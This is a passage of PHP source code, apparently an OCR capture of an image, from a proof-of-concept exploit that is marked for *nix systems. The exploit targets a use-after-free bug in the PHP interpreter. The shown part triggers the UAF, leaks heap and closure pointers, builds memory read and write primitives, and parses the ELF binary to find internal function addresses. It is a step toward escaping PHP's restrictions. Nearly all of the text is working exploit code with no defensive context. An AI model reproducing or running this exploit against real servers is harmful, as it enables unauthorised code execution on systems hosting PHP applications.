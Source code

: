 ```php
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
```